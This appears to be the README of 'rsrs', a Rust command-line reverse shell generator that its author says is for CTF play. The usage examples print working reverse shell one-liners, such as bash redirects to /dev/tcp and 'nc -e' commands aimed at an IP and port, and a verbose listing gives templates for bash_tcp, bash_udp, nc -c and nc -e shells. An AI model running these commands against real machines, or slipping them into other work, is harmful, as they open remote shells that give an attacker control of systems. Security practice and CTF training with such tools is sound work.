 * RuSt Reverse Shell
** What is this?
A reverse shell generator written in rust.
** Why?
I enjoy playing CTFs. There are reverse shell generators available on the web,
but i wanted a single binary program that I could throw into containers and VMs
easily, or just netcat across the wire to a target box.
* Usage
There are 3 subcommands. =Generate=, which generates a reverse shell,
=list-shells= which lists the names of the reverse shells that were compiled in,
and =list-shells-verbose= which lists shells, their components, and their
capabilities.
** Examples
Generate a TCP Bash reverse shell that connects to port 4444 on the IP 10.10.10.37
#+BEGIN_SRC
rsrs generate -i 10.10.10.37 -p 4444 -r bash_tcp
bash -i >& /dev/tcp/10.10.10.37/4444 0>&1
#+END_SRC

Generate a netcat shell, that uses zsh, and connects to port 4444 on the IP 10.10.10.37
#+BEGIN_SRC
rsrs generate -i 10.10.10.37 -p 4444 -r "nc -e" --shell "/bin/zsh"
nc -e /bin/zsh 10.10.10.37 4444
#+END_SRC


List all shells that run on Linux.
#+BEGIN_SRC
rsrs list-shells linux
nc -c
nc -e
bash_tcp
bash_udp
#+END_SRC

List all shells that run on linux, verbose.
#+BEGIN_SRC
rsrs list-shells-verbose linux
Name:		bash_udp
OS:		["linux", "mac"]
Subcomponents:	["IP", "PORT"]
Command:	bash -i >& /dev/udp/{SUBIP}/{SUBPORT} 0>&1
Name:		nc -c
OS:		["linux", "mac"]
Subcomponents:	["IP", "PORT", "SHELL"]
Command:	nc -c {SUBSHELL} {SUBIP} {SUBPORT}
Name:		nc -e
OS:		["linux", "mac"]
Subcomponents:	["IP", "PORT", "SHELL"]
Command:	nc -e {SUBSHELL} {SUBIP} {SUBPORT}
Name:		bash_tcp
OS:		["linux", "mac"]
Subcomponents:	["IP", "PORT"]
Command:	bash -i >& /dev/tcp/{SUBIP}/{SUBPORT} 0>&1
#+END_SRC
